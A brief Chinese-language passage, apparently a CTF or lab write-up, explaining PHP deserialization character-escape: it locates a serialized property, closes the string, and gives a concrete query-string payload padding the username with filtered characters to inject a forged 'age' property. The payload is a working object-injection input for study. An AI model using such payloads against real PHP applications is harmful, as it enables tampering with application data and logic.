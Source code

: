 ![img](assets/202304161616732.png)

分析：观察我们想篡改的第二个属性的位置，以及它的闭合方法：

![img](assets/202304161616845.png)那么就将第二个属性进行构造，闭合前面并写入我们想要的内容：

```php
age=";i:1;s:5:"hahah
```

进行传入测试：

![img](assets/202304161616657.png)好，测试出来如图，既然有12个字符需要前面来吞掉，那么根据他的规则，我们只需要给他24个违法字符，就可以达成我们的目的：

```php
payload:
?username=uf9n1xxxxxxxxxxxxxxxxxxxxxxxx&age=";i:1;s:5:"hahah
```
